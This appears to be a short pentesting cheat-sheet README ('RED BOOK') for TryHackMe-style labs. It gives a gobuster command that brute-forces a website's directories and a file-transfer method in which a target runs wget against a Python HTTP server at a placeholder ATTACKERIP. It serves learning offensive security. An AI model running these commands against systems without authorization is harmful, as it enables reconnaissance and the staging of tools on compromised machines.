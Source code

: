 <h1 align="center">RED BOOK</h1>
<h2 align="center"> Short examples for pentesting/hacking</h2>
<h3 align="center"> Tryhackme and other sources</h3>

<table>
  <tr>
    <td align="left">
      <strong>GOBUSTER CRAWLER BRUTE FORCE WEBSITE PAGES</strong><br>
      Using wordlist, search for directories on webserver to detect what pages webserver have.<br>
      gobuster -u http://WEBPAGE -w WORDLIST.txt dir<br>
      -u is used to state the website we're scanning<br>
      -w takes a list of words to iterate through to find hidden pages<br>
      -dir search for directories
    </td>
  </tr>
  <tr>
    <td align="left">
      <strong>TRANSFER FILES USING HTTP</strong><br>
Start http server with Python (Win) and download files on target with wget request.<br>
On attacker (win): <br>
**python3 -m http.server 1234 c:/testdir** <br>            
1234 is port where http server will listen, and in last part is default dir for http server.<br>
On target in CMD (win/linux/any):<br>
**wget http://ATTACKERIP:1234/SOMEFILEINROOTDIR**
    </td>
  </tr>
</table>

